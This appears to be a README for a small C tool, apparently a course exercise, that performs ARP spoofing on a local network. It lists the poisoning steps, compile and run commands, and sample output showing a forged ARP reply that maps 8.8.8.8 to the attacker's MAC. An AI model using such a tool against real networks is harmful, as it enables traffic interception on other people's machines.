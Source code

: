# send-arp
[ref1](http://www.binarytides.com/c-program-to-get-ip-address-from-interface-name-on-linux/)
[ref2](http://www.programming-pcap.aldabaknocking.com/code/arpsniffer.c)

1. send ARP request to the sender
2. get the ARP reply (the sender's `MAC address`)
3. send ARP reply to the sender with the attacker's `MAC address` and the target's `IP address`

### OS
```
Ubuntu 16.04.2
```

### Language
```
C
```

### Compile & Execute
```
$ gcc -o arp arp.c -lpcap
```
```
$ sudo ./arp ens33 192.168.242.147 8.8.8.8
```

### Result
```
============= Send ARP =============
******* get attacker's info *******
attacker MAC 0:c:29:53:b3:dd 
attacker IP  192.168.242.180
******** get sender's info ********
sender MAC   0:c:29:48:20:4c 
sender IP    192.168.242.147
****** send infected packet *******
src MAC      0:c:29:53:b3:dd 
src IP       8.8.8.8
dst MAC      0:c:29:48:20:4c 
dst IP       192.168.242.147
====================================
```

